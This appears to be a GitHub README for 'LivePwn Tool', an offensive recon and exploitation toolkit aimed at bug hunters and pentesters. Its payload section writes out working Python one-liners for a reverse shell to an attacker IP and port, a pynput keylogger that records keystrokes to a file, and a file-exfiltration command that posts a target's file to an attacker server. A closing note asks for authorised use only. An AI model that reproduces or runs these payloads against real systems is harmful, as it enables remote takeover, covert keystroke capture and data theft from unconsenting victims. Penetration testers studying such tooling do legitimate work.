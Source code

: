 # LivePwn Tool

![alt](https://i.pinimg.com/736x/e0/2c/8c/e02c8c0f5ca11f02eb11e3008a23ac88.jpg)


**LivePwn Tool** is a powerful, all-in-one reconnaissance and exploitation tool designed for **bug hunters**, **penetration testers**, and **ethical hackers**, and **CTF Players**.

---

## Features

### 1. Reconnaissance Tools
- **WHOIS Lookup**: Retrieve domain registration details.
- **Subdomain Discovery**: Find subdomains using tools like `Sublist3r` and `Amass`.
- **DNS Enumeration**: Gather DNS records (A, MX, NS, etc.).
- **Directory Brute-Forcing**: Discover hidden directories using `Dirb`, `Gobuster`, and `Dirsearch`.
- **Port Scanning**: Identify open ports and services using `Nmap`.

### 2. Exploitation Tools
- **SQL Injection**: Automate SQL injection attacks using `SQLMap`.
- **Metasploit Integration**: Launch Metasploit modules directly from the tool.

### 3. Payloads
- **Reverse Shell**: Gain remote access to a target system.
- **Keylogger**: Capture keystrokes on the target system.
- **File Exfiltration**: Send files from the target system to your server.
- **SQL Injection Payload**: Test for SQL injection vulnerabilities.
- **XSS Payload**: Test for Cross-Site Scripting (XSS) vulnerabilities.
- **Remote Code Execution (RCE)**: Execute commands on the target system.
- **Local File Inclusion (LFI)**: Exploit LFI vulnerabilities.

### 4. Reporting
- Generate detailed reports in `.txt` format for your findings.

### 5. Gamification
- Earn points and badges for discoveries.
- Compete on a global leaderboard (future feature).

## Installation

### Prerequisites
- Python 3.x
- Required Python libraries:
  ```bash
  pip install requests beautifulsoup4 pynput
  ```
## Installation Steps
### Clone the repository:
```
git clone https://github.com/livepwn/livepwns.git

cd livepwns
```
## Install dependencies:

```bash
chmod +x setup.sh
./setup.sh
```
## Run the tool:

```bash
python livepwns.py
```
## Usage
### Interactive Mode
- Launch the tool:

```bash
python livepwns.py
```
- Use the interactive menu to select tools, exploits, or payloads.

## Command-Line Mode
- Run a specific tool directly:

```bash
python livepwns.py --tool <tool_name> --target <target>
```

- Example:

```bash
python livepwns.py --tool nmap --target example.com
```

## Payloads
### Available Payloads
#### Reverse Shell:

- Replace (YOUR_IP) and (4444) with your IP and port.

- Example:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

#### Keylogger:

- Logs keystrokes to keylog.txt.

- Example:

```bash
python3 -c 'from pynput.keyboard import Listener; import logging; logging.basicConfig(filename="keylog.txt", level=logging.DEBUG, format="%(asctime)s: %(message)s"); def on_press(key): logging.info(str(key)); with Listener(on_press=on_press) as listener: listener.join()'
```

#### File Exfiltration:

- Replace YOUR_SERVER with your server URL.

- Example:

```bash
python3 -c 'import requests; url="http://YOUR_SERVER/upload"; files={"file": open("/path/to/target/file.txt", "rb")}; requests.post(url, files=files)'
```
## Examples
### Reconnaissance
- Perform a WHOIS lookup:

```bash
python livepwns.py --tool whois --target example.com
```
### Discover subdomains:

```bash
python livepwns.py --tool subdomain --target example.com
```


## Exploitation
- Run an SQL injection attack:

```bash
python livepwns.py --tool sqlmap --target http://example.com/vulnerable_page
```
## Payloads
- Generate a reverse shell payload:

```bash
python livepwns.py
```
- Navigate to the Payloads Menu and select Reverse Shell.


## Reporting
- Generate a report of your findings:

```bash
python livepwns.py
```
- Navigate to the Generate Report option and provide a report name.

## Ethical Use
###  Authorization: 
Only use this tool on systems you own or have explicit permission to test.

### Legal Compliance: 
Ensure you comply with all applicable laws and regulations.

### Responsibility: 
Use this tool responsibly and ethically.

## Author
LivePwn

- Github [@livepwn](https://www.github.com/1pwn)

## License
This project is licensed under the MIT License. See the LICENSE file for details.

## Contributing
Contributions are welcome! Please open an issue or submit a pull request.

## Support
For support, questions, or feedback, please open an issue on the GitHub repository.

## Disclaimer
This tool is for educational purposes only. The author is not responsible for any misuse or damage caused by this tool.




  